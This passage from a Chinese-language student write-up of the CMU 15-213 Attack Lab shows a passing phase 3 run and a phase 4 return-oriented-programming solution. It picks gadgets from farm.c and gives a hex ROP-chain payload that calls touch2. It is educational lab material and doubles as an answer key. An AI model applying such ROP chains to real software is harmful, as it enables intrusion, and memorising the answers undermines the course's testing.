 ```asm
root@384ad3e1766c:~/CMU-15213/Lab/Attack# ./ctarget -q < phase3-raw.txt
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 B0 DC 61 55 ......
```
# phase4

这道题要求我们使用gadget的组合通过phase2，首先反汇编`farm.c`来查看有哪些我们能用的gadgets。

```bash
gcc -c farm.c
objdump -d farm.o > farm.d
```

而后选择可用的gadget：
- popq %rax → 用来把常量放到`%rax`
    - 在`getval_280`找到：`58 90 c3`
    - 地址：`0x4019cc`
- movq %rax, %rdi → 把`%rax`的值放到`%rdi`
    - 在`setval_426`找到：`48 89 c7`
    - 地址：`0x4019c5`

然后就可以构造我们的ROP链了，如下：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00       /* popq %rax */
fa 97 b9 59 00 00 00 00       /* cookie值 */
c5 19 40 00 00 00 00 00       /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00       /* touch2首地址 */
```

这里也是美滋滋通关:)

```asm
root@384ad3e1766c:~/CMU-15213/Lab/Attack# ./rtarget -q < phase4-raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:.......
```
# phase5

开摆！